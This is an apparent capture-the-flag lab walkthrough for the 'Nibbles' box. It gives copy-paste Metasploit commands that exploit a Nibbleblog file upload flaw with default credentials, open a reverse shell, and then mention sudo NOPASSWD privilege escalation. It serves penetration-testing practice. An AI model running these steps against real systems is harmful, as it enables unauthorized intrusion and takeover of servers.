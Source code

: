 # Nibbles — Alternate User Method (Metasploit)

**Goal:** Use Metasploit to exploit the Nibbleblog file upload vulnerability and gain a reverse shell as `nibbler`.

---

## Quick summary
- Start `msfconsole` on your attack box.
- Search for the nibbleblog module: `exploit/multi/http/nibbleblog_file_upload`.
- Load the module and set target options (`RHOSTS`, `LHOST`, `TARGETURI`, `USERNAME`, `PASSWORD`).
- Choose a payload (e.g. `generic/shell_reverse_tcp`).
- Run `exploit` to upload and trigger the file; Metasploit will open a shell session.
- The resulting shell runs as `nibbler` (uid=1001). From here, follow the same privilege escalation steps (monitor.sh + sudo NOPASSWD) as in the manual method to become root.

---

## Commands (copy/paste)

```bash
# start msfconsole
msfconsole

# search for modules
search nibbleblog

# load the module (example using index 0)
use exploit/multi/http/nibbleblog_file_upload

# set target and callback options
set RHOSTS 10.129.42.190
set LHOST 10.10.14.2
set TARGETURI nibbleblog
set USERNAME admin
set PASSWORD nibbles

# choose payload (example)
set PAYLOAD generic/shell_reverse_tcp
set LPORT 4444   # optional if different port

# show options to verify
show options

# run the exploit
exploit
```

Example Metasploit output snippet after exploitation:
```
[*] Started reverse TCP handler on 10.10.14.2:4444
[*] Command shell session 4 opened (10.10.14.2:4444 -> 10.129.42.190:53642)
[+] Deleted image.php
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

---

## Notes & tips
- The module defaults to `php/meterpreter/reverse_tcp` if no payload is set; switch to `generic/shell_reverse_tcp` or another payload as desired.
- Metasploit automates the upload and trigger steps, making exploitation faster and more reliable.
- After gaining `nibbler` access, reuse local privilege escalation methods (e.g., LinEnum, inspect `personal.zip`, exploit writable `monitor.sh` via `sudo` NOPASSWD).
- Always test and practice in authorized lab environments only.
